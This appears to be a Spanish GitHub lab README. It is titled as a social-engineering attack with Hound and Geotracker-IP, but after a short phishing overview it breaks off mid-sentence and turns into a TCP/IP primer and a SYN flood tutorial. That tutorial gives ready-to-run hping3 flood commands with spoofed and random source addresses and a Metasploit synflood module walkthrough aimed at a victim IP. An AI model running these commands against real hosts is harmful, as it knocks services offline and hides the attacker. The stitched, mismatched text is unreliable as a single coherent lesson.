




# 	Ataque Ingeniería Social utilizando Hound y Geotracker-IP


> [!IMPORTANT]
> Laboratorio Ingeniería Social realizado en la distro Kali Linux 2023.4, gracias a la instalación de repositorios y otras herramientas. 
Un ataque de <b>ingeniería social</b> es una técnica de manipulación (psicológica) que los ciberatacantes utilizan para engañar a los usuariosy lograr que revelen información confidencial, realicen acciones inseguras o les den acceso a sistemas restringidos.

> Dentro de los ataques de ingeniería social, existen diferentes tipos, los cuales van desde el <b>Phishing</b>	(se reciben correos o mensajes falsos que parecen legítimos y piden hacer clic en enlaces maliciosos), el <b>Vishing</b> (llamadas telefónicas donde el atacante se hace pasar por soporte técnico o personal del banco), el <b>Smishing</b> (se reciben mensajes SMS engañosos con enlaces o instrucciones falsas), el <b>Pretexting</b> (donde el atacante inventa una historia/pretexto para obtener datos, como un falso auditor o reclutador), el <b>Baiting</b> (un clásico que ofrece algo atractivo como descargas gratis, USB olvidado para que la víctima lo use y active malware) o el <b>Tailgating</b>	(en esta caso un atacante entra físicamente a un edificio aprovechando que alguien le abre la puerta sin preguntar).

> ### Primeros pasos: Instalación HOUND :computer:
> En primer lugar, debemos llegar hasta el repo de Github de <b>Hound</b>: https://github.com/techchipnet/hound


 primer concepto, se ha de conocer el <b>modelo TCP/IP</b>, protocolo de red que permite la comunicación a través de Internet (abreviatura de <b>Protocolo de control de transmisión/Protocolo de Internet</b>), el cual es un protocolo estándar y un modelo (en la actualidad) de 4 capas que define cómo se transmiten los datos a través de una red y cómo se comunican los dispositivos. Su origen se da en la década de 1970 gracias al Departamento de Defensa de USA (DOD), ya que se pretendía crear una red que pudiera funcionar incluso si partes de ella resultaran dañadas o destruidas. Posteriormente, el modelo TCP/IP se publicó por primera vez en 1981 (versión 4) y luego se actualizó a la versión 6 en 1995. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_1.png">
  
</picture>
</p>


> ### Trabajando con TCP-SYN Flood / SYN-ACK: HPing3 :computer:
> <b>Hping3</b> es una aplicación de Kali Linux que permite analizar y ensamblar paquetes TCP/IP, aunque se utiliza para enviar paquetes TCP, UDP y RAW-IP. Su uso va desde el simple análisis de los paquetes, hasta probar la eficacia de un firewall a través de diferentes protocolos, la detección de paquetes sospechosos o modificados e incluso la protección frente a ataques DoS de un sistema o de un firewall.
> Veamos diversos tipos de ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), lanzamos el comando o, si no está disponible, instalaremos el paquete mediante el código:
<b>

```
apt-get install hping3
```
</b>

- <b>Paso 2</b>: Podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
hping3 -p 80  -S --flood [ip_victima]
```
</b>
Se puede comprobar que <b>-p</b> es utilizado para determinar el puerto, que <b>-S</b> activa la flag SYN del paquete TCP-IP, y que <b>--flood</b> indica que el envío de paquetes se realizará de la manera más rápida posible. Además, podemos encubrir el origen con múltiples variantes

<b>

```
hping3 -a [ip_atacante_falsa] -p 80  -S --flood [ip_victima] # IP de origen encubierta
```
</b>

<b>

```
hping3 --rand-source -p 80  -S --flood [ip_victima] # IP de origen generada aleatoriamente
```
</b>

<b>

```
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.47
```
</b>
Podemos comprobar que las variables <b>-c</b> determina la cantidad de paquetes que se enviarán, que <b>-S</b> activa la flag SYN del paquete TCP-IP, que <b>-p</b> es utilizado para determinar el puerto al que realizar el ataque, <b>-d</b> determina el tamaño de los paquetes que se envían y que <b>-w</b> sirve para mostrar las respuestas Windows.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_4.png">
  
</picture>
</p>

> ### Trabajando con SYNFlood: METASPLOIT SynFlood :computer:
> <b>SynFlood</b> es una de las herramientas auxiliares disponibles en el <b>Framework Metasploit</b> donde, de nuevo, la herramienta se aprovecha de un fallo en la forma en que la mayoría de los hosts tienen implementado el handshake TCP de tres vías.
> Veamos la realización del ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), arrancamos PostGreSQL:
<b>

```
service postgresql start
```
</b>

- <b>Paso 2</b>: Posteriormente, cargamos el Framework Metasploit con ayuda del comando:
<b>

```
msfconsole
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_5.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_5.png">
  
</picture>
</p>

- <b>Paso 3</b>: Ya en el Framework Metasploit, nos disponemos a cargar la herramienta auxiliar con ayuda del comando:
<b>

```
use auxiliary/dos/tcp/synflood
```
</b>

- <b>Paso 4</b>: Gracias al comando que mostramos a continuación, podemos configurar la IP de la víctima:
<b>

```
set RHOST [ip_victima]
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_6.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_6.png">
  
</picture>
</p>

Podemos comprobar si está o no configurado mediante:
<b>

```
show options
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_7.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_7.png">
  
</picture>
</p>

- <b>Paso 5</b>: Ya podemos realizar el ataque SYN Flood sin problema:
<b>

```
Exploit
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_8.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_8.png">
  
</picture>
</p>